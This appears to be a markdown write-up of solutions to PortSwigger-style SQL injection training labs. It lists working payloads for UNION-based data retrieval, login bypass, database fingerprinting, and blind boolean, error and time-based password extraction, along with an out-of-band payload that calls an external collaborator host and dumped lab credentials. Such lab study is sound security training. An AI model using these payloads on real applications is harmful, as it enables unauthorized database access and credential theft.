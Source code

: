 # SQLi

## Retrieving hidden data

### SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
```
/filter?category=Food+%26+Drink'+OR+1=1--
```

## Subverting application logic

### SQL injection vulnerability allowing login bypass

Username: `administrator'--`

## Retrieving data from other database tables

### Determining the number of columns required in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+null--            500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null--       500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,null,null--  200 OK
```

### Finding columns with a useful data type in an SQL injection UNION attack
```
?category=Gifts'+UNION+SELECT+'rn4IRy',null,null--   500 Internal Server Error
?category=Gifts'+UNION+SELECT+null,'rn4IRy',null--   200 OK
```

### Using an SQL injection UNION attack to retrieve interesting data
```
?category=Pets'+UNION+SELECT+username,password+FROM+users--
```
Credentials retrieved: `administrator` / `sip8ds`

### Retrieving multiple values within a single column
```
?category=Gifts'+UNION+SELECT+null,username+||+'~'+||+password+FROM+users--

wiener~peter
administrator~5v82nt
carlos~montoya
```

## Examining the database

### SQL injection attack, querying the database type and version on Oracle
```
?category=Gifts'+UNION+SELECT+BANNER,null+FROM+v$version--
```

### SQL injection attack, querying the database type and version on MySQL and Microsoft
```
?category=Lifestyle'+UNION+SELECT+null,@@version--+
```

### SQL injection attack, listing the database contents on non-Oracle databases
```
?category=Gifts%27+UNION+SELECT+version(),null--+
PostgreSQL 11.2 (Debian 11.2-1.pgdg90+1) on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18+deb9u1) 6.3.0 20170516, 64-bit

?category=Gifts%27+UNION+SELECT+TABLE_SCHEMA,TABLE_NAME+FROM+information_schema.tables--+
public / users_xsxvki

?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+information_schema.columns+WHERE+table_name=%27users_xsxvki%27--+
username_difdky
password_gjwzbs

?category=Gifts%27+UNION+SELECT+username_difdky,password_gjwzbs+FROM+users_xsxvki--+
administrator / niuv95
```

### SQL injection attack, listing the database contents on Oracle
```
https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2105.htm#REFRN20286
?category=Gifts%27+UNION+SELECT+null,TABLE_NAME+FROM+all_tables--
USERS_TUEJNQ

https://docs.oracle.com/cd/B19306_01/server.102/b14237/statviews_2094.htm
?category=Gifts%27+UNION+SELECT+null,COLUMN_NAME+FROM+all_tab_columns+WHERE+TABLE_NAME=%27USERS_TUEJNQ%27--
USERNAME_GIBQLT
PASSWORD_EZJBQY

?category=Gifts%27+UNION+SELECT+USERNAME_GIBQLT,PASSWORD_EZJBQY+FROM+USERS_TUEJNQ--+
administrator / lpm52k
```

## Blind SQL injection vulnerabilities

### Blind SQL injection with conditional responses

Determine password length:
```
TrackingId=a'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+LENGTH(password)=6--;
```

Use Burp Suite Intruder (payload Brute-force `a-z0-9`) to get password one character at a time.
If the server response contains `Welcome back` then we know we guessed the character correctly.
```
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,1,1)='§a§'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,2,1)='§a§'--;
TrackingId=x'+UNION+SELECT+'a'+FROM+users+WHERE+username='administrator'+AND+substring(password,3,1)='§a§'--;
...
```
Password is: `nqk8kg`

### Blind SQL injection with conditional errors

Determine password length:
```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+length(password)>6)+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```

Use Burp Suite Intruder to get password one character at a time.
If the server responds with HTTP 500 then we know we guessed the character correctly.
This time I used attack type `Cluster bomb` and set 2 payloads right away - the first payload was a simple
number iterator and the second payload was Brute-force `a-z0-9`.
```
TrackingId=x'+UNION+SELECT+CASE+WHEN+(username='administrator'+AND+SUBSTR(password,§1§,1)='§a§')+THEN+to_char(1/0)+ELSE+null+END+FROM+users--;
```
Password is: `2req0w`

### Blind SQL injection with time delays
```
TrackingId=x'||pg_sleep(10)--
```

### Blind SQL injection with time delays and information retrieval

Determine password length:
```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+length(password)=6)+then+pg_sleep(5)+else+null+end+from+users--;
```

Use Burp Suite Intruder to get password one character at a time.
If the server responds in more than 10 secs then we know guessed the character correctly.
```
TrackingId=a'%3bselect+case+when+(username='administrator'+and+substring(password,§1§,1)='§a§')+then+pg_sleep(10)+else+null+end+from+users--;
```

Password is: `2req0w`
```
bu15v4
```

### Blind SQL injection with out-of-band interaction

```
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//x.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```

### Blind SQL injection with out-of-band data exfiltration
TODO: Burp Suite Professional